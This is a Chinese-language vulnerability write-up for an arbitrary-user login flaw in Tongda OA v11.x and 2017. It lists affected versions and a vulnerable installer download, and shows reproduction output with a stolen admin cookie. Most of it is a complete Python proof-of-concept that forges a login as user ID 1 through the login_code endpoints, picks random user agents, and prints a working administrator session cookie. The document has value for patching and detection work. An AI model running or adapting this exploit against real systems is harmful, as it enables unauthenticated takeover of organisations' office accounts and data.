

# 通达OA v11.5 login_code.php 任意用户登录

## 漏洞描述

通达OA是一套办公系统。2020年04月17日, 通达OA官方在更新了一个v11版本安全补丁, 其中修复了一个任意用户伪造登录漏洞。
该漏洞类型为任意用户伪造，未经授权的远程攻击者可以通过精心构造的请求包进行任意用户伪造登录。

## 漏洞影响

```
通达OA 2017版
通达OA版本  V11.X < V11.5
```

## 环境搭建

漏洞环境下载

```plain
https://cdndown.tongda2000.com/oa/2019/TDOA11.4.exe
```

双击安装即可


## 漏洞复现

使用[POC](https://github.com/NS-Sp4ce/TongDaOA-Fake-User/blob/master/POC.py)获取管理员的Cookie

```plain
root@kali:~/桌面# python3 1.py -v 11 -u http://xx.xxx.xxx.xxx
[+]Get Available COOKIE:PHPSESSID=sr3f46qg6539khd3e3rrucoa72; path=/
```

成功获得Cookie,添加Cookie访问 [**http://xxx.xxx.xxx.xxx/general/index.php?isIE=0&modify_pwd=0**](http://xxx.xxx.xxx.xxx/general/index.php?isIE=0&modify_pwd=0)即可



## 漏洞POC

```python
'''
@Author         : Sp4ce
@Date           : 2020-03-17 23:42:16
LastEditors    : Sp4ce
LastEditTime   : 2020-08-27 10:21:44
@Description    : Challenge Everything.
'''
import requests
from random import choice
import argparse
import json

USER_AGENTS = [
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Acoo Browser; SLCC1; .NET CLR 2.0.50727; Media Center PC 5.0; .NET CLR 3.0.04506)",
    "Mozilla/4.0 (compatible; MSIE 7.0; AOL 9.5; AOLBuild 4337.35; Windows NT 5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
    "Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US)",
    "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 2.0.50727; Media Center PC 6.0)",
    "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 1.0.3705; .NET CLR 1.1.4322)",
    "Mozilla/4.0 (compatible; MSIE 7.0b; Windows NT 5.2; .NET CLR 1.1.4322; .NET CLR 2.0.50727; InfoPath.2; .NET CLR 3.0.04506.30)",
    "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN) AppleWebKit/523.15 (KHTML, like Gecko, Safari/419.3) Arora/0.3 (Change: 287 c9dfb30)",
    "Mozilla/5.0 (X11; U; Linux; en-US) AppleWebKit/527+ (KHTML, like Gecko, Safari/419.3) Arora/0.6",
    "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.1.2pre) Gecko/20070215 K-Ninja/2.1.1",
    "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.9) Gecko/20080705 Firefox/3.0 Kapiko/3.0",
    "Mozilla/5.0 (X11; Linux i686; U;) Gecko/20070322 Kazehakase/0.4.5",
    "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.8) Gecko Fedora/1.9.0.8-1.fc10 Kazehakase/0.5.6",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.56 Safari/535.11",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_3) AppleWebKit/535.20 (KHTML, like Gecko) Chrome/19.0.1036.7 Safari/535.20",
    "Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/536.11 (KHTML, like Gecko) Chrome/20.0.1132.11 TaoBrowser/2.0 Safari/536.11",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.71 Safari/537.1 LBBROWSER",
    "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; LBBROWSER)",
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E; LBBROWSER)",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.84 Safari/535.11 LBBROWSER",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
    "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; QQBrowser/7.0.3698.400)",
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; SV1; QQDownload 732; .NET4.0C; .NET4.0E; 360SE)",
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
    "Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1",
    "Mozilla/5.0 (iPad; U; CPU OS 4_2_1 like Mac OS X; zh-cn) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8C148 Safari/6533.18.5",
    "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0b13pre) Gecko/20110307 Firefox/4.0b13pre",
    "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:16.0) Gecko/20100101 Firefox/16.0",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11",
    "Mozilla/5.0 (X11; U; Linux x86_64; zh-CN; rv:1.9.2.10) Gecko/20100922 Ubuntu/10.10 (maverick) Firefox/3.6.10"
]

headers={}

def getV11Session(url):
    checkUrl = url+'/general/login_code.php'
    try:
        headers["User-Agent"] = choice(USER_AGENTS)
        res = requests.get(checkUrl,headers=headers)
        resText = str(res.text).split('{')
        codeUid = resText[-1].replace('}"}', '').replace('\r\n', '')
        getSessUrl = url+'/logincheck_code.php'
        res = requests.post(
            getSessUrl, data={'CODEUID': '{'+codeUid+'}', 'UID': int(1)},headers=headers)
        tmp_cookie = res.headers['Set-Cookie']
        headers["User-Agent"] = choice(USER_AGENTS)
        headers["Cookie"] = tmp_cookie
        check_available = requests.get(url + '/general/index.php',headers=headers)
        if '用户未登录' not in check_available.text:
            if '重新登录' not in check_available.text:
                print('[+]Get Available COOKIE:' + tmp_cookie)
        else:
            print('[-]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
    except:
        print('[-]Something Wrong With '+url)


def get2017Session(url):
    checkUrl = url+'/ispirit/login_code.php'
    try:
        headers["User-Agent"] = choice(USER_AGENTS)
        res = requests.get(checkUrl,headers=headers)
        resText = json.loads(res.text)
        codeUid = resText['codeuid']
        codeScanUrl = url+'/general/login_code_scan.php'
        res = requests.post(codeScanUrl, data={'codeuid': codeUid, 'uid': int(
            1), 'source': 'pc', 'type': 'confirm', 'username': 'admin'},headers=headers)
        resText = json.loads(res.text)
        status = resText['status']
        if status == str(1):
            getCodeUidUrl = url+'/ispirit/login_code_check.php?codeuid='+codeUid
            res = requests.get(getCodeUidUrl)
            tmp_cookie = res.headers['Set-Cookie']
            headers["User-Agent"] = choice(USER_AGENTS)
            headers["Cookie"] = tmp_cookie
            check_available = requests.get(url + '/general/index.php',headers=headers)
            if '用户未登录' not in check_available.text:
                if '重新登录' not in check_available.text:
                    print('[+]Get Available COOKIE:' + tmp_cookie)
            else:
                print('[-]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
        else:
            print('[-]Something Wrong With '+url  + ' Maybe Not Vulnerable ?')
    except:
        print('[-]Something Wrong With '+url)


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "-v",
        "--tdoaversion",
        type=int,
        choices=[11, 2017],
        help="Target TongDa OA Version. e.g: -v 11、-v 2017")
    parser.add_argument(
        "-url",
        "--targeturl",
        type=str,
        help="Target URL. e.g: -url 192.168.2.1、-url http://192.168.2.1"
    )
    args = parser.parse_args()
    url = args.targeturl
    if 'http://' not in url:
        url = 'http://' + url
    if args.tdoaversion == 11:
        getV11Session(url)
    elif args.tdoaversion == 2017:
        get2017Session(url)
    else:
        parser.print_help()
```